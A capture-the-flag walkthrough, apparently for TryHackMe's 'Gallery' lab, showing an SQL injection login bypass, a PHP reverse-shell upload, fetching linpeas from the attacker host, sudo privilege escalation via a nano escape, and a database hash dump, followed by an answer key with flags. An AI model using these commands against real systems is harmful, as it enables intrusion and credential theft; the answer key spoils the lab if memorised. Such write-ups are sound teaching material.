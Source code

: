 # Gallery - Easy

```shell
sudo vim /etc/hosts
#add gallery.thm

nmap -T4 -p- -A -Pn -v gallery.thm

#bypass using SQLi
#upload php shell to Albums page

nc -nvlp 4444
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
#press Ctrl+Z
stty raw -echo; fg
#press Enter key twice

id
#www-data

#check directories /var/www, /opt, /home

cd /tmp

#in attacker machine
python3 -m http.server

#in victim machine
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
#gives cleartext password

su mike
#use password

cd

#get user flag

sudo -l
#we can run script rootkit.sh as root

cat /opt/rootkit.sh
#uses rkhunter and nano

#gtfobins exploit for nano

sudo /bin/bash /opt/rootkit.sh
#give input 'read'
#in nano editor
#Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0

#we have shell as root
id

cat /root/root.txt

which mysql

mysql -u root
#MariaDB
#get admin hash

show databases;

use gallery_db;

show tables;

select * from users;
#get admin hash
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.29 (Ubuntu)
  * 8080 - http - Apache httpd 2.4.29 (Ubuntu)

* The webpage on port 80 is the default landing page for Apache on Ubuntu; we can leave it for now.

* Checking the webpage on port 8080, we have a login portal for 'Simple Image Gallery System'.

* As we do not have any clues regarding username/password, we can begin by trying injection to bypass login.

* With the help of the payload ```admin' OR 1=1#```, we are able to bypass login.

* Now, for this 'Simple Image Gallery' CMS, we have an upload functionality in Albums.

* We can first try uploading 'reverse-shell.php' file - surprisingly it works.

* We can activate reverse shell by setting up listener and clicking on the uploaded PHP shell.

* We have reverse shell as 'www-data'; we can stabilize it now.

* Checking the /home directory shows that there is a user 'mike' - we need to find some way for privesc to mike.

* Using ```linpeas``` shows the history files; this includes a cleartext password.

* We are able to switch to user 'mike' using this password and get user flag.

* Now, ```sudo -l``` shows that we can run a 'rootkit.sh' script as root.

* This script allows the user to versioncheck, update, list or read a report.

* The script uses the tools ```rkhunter``` and ```nano```.

* To use ```nano```, we have to give the input 'read' after running the script.

* Now, we have exploits on GTFObins for ```nano``` - we can use the exploit to get shell as root.

* Running the exploit gives us root shell; we can read root flag.

* To get the admin hash, we can run ```mysql``` as root - the hash is stored in the ```MariaDB``` database 'gallery_db'.

```markdown
1. How many ports are open? - 2

2. What's the name of the CMS? - Simple Image Gallery

3. What's the hash password of the admin user? - a228b12a08b6527e7978cbe5d914531c

4. What's the user flag? - THM{af05cd30bfed67849befd546ef}

5. What's the root flag? - THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
